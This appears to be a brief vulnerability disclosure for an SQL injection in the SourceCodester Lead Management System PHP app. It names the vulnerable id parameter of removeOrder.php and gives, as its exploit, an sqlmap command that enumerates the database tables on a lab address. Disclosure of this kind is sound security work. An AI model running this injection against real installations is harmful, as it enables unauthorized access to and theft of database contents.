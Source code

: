 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20221219171513723](C:\markdown\images\image-20221219171513723.png)

EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeOrder.php?id=1" --dbms=mysql -D penglead --tables
```

![image-20221219171552732](C:\markdown\images\image-20221219171552732.png)